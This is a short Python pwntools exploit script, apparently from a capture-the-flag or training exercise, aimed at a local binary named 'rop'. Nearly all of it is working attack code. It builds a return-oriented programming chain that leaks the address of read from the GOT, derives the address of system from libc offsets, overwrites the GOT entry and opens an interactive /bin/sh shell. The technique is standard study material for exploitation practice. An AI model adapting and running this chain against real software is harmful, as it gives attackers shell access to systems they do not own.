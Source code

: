 exploit:
```python
from pwn import *
from struct import *

#context.log_level = 'debug'

binsh = "/bin/sh"

binary = ELF('./rop')

#32bit OS
libc = ELF("/lib/i386-linux-gnu/libc-2.23.so")
#64bit OS
#libc = ELF("/lib32/libc-2.23.so")
rop = ROP(binary)

print binary.checksec()

read_plt = binary.plt['read']
read_got = binary.got['read']
write_plt = binary.plt['write']
write_got = binary.got['write']
read_system_offset = libc.symbols['read'] - libc.symbols['system']
writableArea = 0x0804a050

#Address info
log.info("read@plt : " + str(hex(read_plt)))
log.info("read@got : " + str(hex(read_got)))
log.info("write@plt : " + str(hex(write_plt)))
log.info("write@got : " + str(hex(write_got)))
log.info("read system offset : " + str(hex(read_system_offset)))
log.info("Writeable area : " + str(writableArea))

#ROP Code
rop.read(0,writableArea,len(str(binsh)))
rop.write(1,read_got,4)
rop.read(0,read_got,len(str(read_got)))
rop.raw(read_plt)
rop.raw(0xaaaabbbb)
rop.raw(writableArea)
payload = "A"*62 + str(rop)

#Run
r = process("./rop")
r.recvn(10)
r.send(payload + '\n')
r.send(binsh)
read = u32(r.recvn(4))
system_addr = read - read_system_offset
rop = ROP(binary)
rop.raw(system_addr)
r.send(str(rop))

r.interactive()
```
